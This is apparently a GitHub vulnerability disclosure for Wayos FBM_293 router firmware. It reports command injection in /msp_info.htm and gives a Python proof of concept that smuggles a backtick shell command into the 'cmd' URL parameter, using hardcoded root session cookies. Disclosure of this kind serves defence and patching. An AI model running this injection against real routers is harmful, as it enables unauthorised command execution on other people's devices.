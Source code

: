 # wayos_FBM_293

## Firmware information
+ Manufacturer's address:[https://www.wayos.com/](https://www.wayos.com/)
+ Firmware download address:[https://drive.weixin.qq.com/s?k=ANgAJAcRAAcDrEqJTG#/preview?fileId=s.1970324955538648.649217589iNQ_f.6772254215xDg](https://drive.weixin.qq.com/s?k=ANgAJAcRAAcDrEqJTG#/preview?fileId=s.1970324955538648.649217589iNQ_f.6772254215xDg)

## Affected version
![](vx_images/591170315248517.png)

## Vulnerability details
![](vx_images/77830515269059.png)
In /msp_info.htm, There is command injection
## Poc
Request before sending
![](vx_images/175443718259273.png)
Request after sending:
![](vx_images/486984018267306.png)

```
import requests

burp0_url = "http://192.168.1.1:80/msp_info.htm?flag=cmd&cmd=`ps%20%3E%20/ProcInfo.txt`"
burp0_cookies = {"userid": "root", "gw_userid": "root,gw_passwd=3367B3DE1D5A18392A560817EC87A7C9"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```